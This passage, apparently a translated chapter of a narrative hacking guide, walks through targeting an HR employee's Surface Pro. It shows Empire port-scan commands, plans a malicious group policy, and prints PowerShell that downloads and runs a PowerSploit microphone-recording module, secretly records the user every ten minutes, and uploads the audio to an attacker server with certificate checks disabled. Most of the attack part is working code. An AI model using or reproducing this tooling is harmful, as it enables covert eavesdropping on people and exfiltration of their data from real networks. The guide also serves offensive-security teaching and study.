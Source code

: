 当然！微软Surface Pro！所以另一个设备肯定是她的“普通”笔记本电脑。工作站可能用于办公室工作，而平板电脑可能用于旅行期间的快速笔记…或重要会议-董事会会议！我们有目标了！

Surface Pro与任何传统工作站都依赖相同的Windows内核。我们可以快速扫描以查看是否有可用的端口：
```
(Empire: HRAgent) > usemodule situational_awareness/network/portscan
(Empire: portscan) > use TopPorts 1000
(Empire: portscan) > use Hosts SPHR0098.GBHR.CORP
(Empire: portscan) > run
portscan completed!
```

锁定！好吧，比最初预想的要复杂一点。我们没办法进去。还记得当我们谈到一些域设置时，这些设置有时是由域控制器推送的吗？

如果我们可以配置一个设置：“如果您是机器X，那么执行此代码”怎么办？有可能吗？当然了。它甚至有一个名字：组策略对象（GPO）！

我们的想法是创建一个GPO，它以HR的平板电脑为目标，并指示它执行一个随机的PowerShell脚本。事实上，不是那么随机。每当Elise登录并使用默认麦克风录制环境声音时，这个漂亮的代码就会启动。为了确保我们得到数据，它将每10分钟将数据推送到前置服务器。

首先，我们从记录音频的PS脚本开始。我们通过@sixdub(参阅https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Exfiltration/Get-MicrophoneAudio.ps1)下载准备使用的powerspoit模块Get-MicroponeAudio，然后准备一个循环，每隔10分钟转储一次音频文件：
```
while($true)
{
$i++;
$browser = New-Object System.Net.WebClient
$browser.Proxy.Credentials=[System.Net.CredentialCache]::DefaultNetworkCredentials;
IEX($browser.DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Exfiltration/Get-MicrophoneAudio.ps1"));
Get-MicrophoneAudio -path c:\users\ejansen\appdata\local\file$i.wav-Length 600
}
```

这段代码将无休止地录制大约6MB的10分钟音频文件。录制完成后，我们需要上载文件，然后重新开始录制。

为了避免在上载文件时丢失宝贵的秒数，我们需要将上载过程作为作业启动，以便它与实际脚本并行运行(参阅https://github.com/HackLikeAPornstar/GibsonBird/tree/master/chapter5)：
```
while($true)
{
    $i++;
    $browser = New-Object System.Net.WebClient
    $browser.Proxy.Credentials=[System.Net.CredentialCache]::DefaultNetworkCredentials;
    IEX($browser.DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Exfiltration/Get-MicrophoneAudio.ps1"));
    Get-MicrophoneAudio -path c:\users\ejansen\appdata\local\file$i.wav-Length 600 start-job -Name Para$i -ArgumentList $i -ScriptBlock{ 
        $i = $args[0];
        $browser = New-Object System.Net.WebClient; 
        $browser.Proxy.Credentials=[System.Net.CredentialCache]::DefaultNetworkCredentials;
        [System.Net.ServicePointManager]::ServerCertificateValidationCallback ={$true};
        $browser.uploadFile("https://<frontgun_ip/", "c:\users\ejansen\appdata\local\file$i.wav");
        }
}
```

除了指示PowerShell接受自签名证书的SSL指令之外，没有什么新功能。实际上，我们选择使用可以快速获得的服务器（使用下面的python脚本设置）进行安全的文件传输。
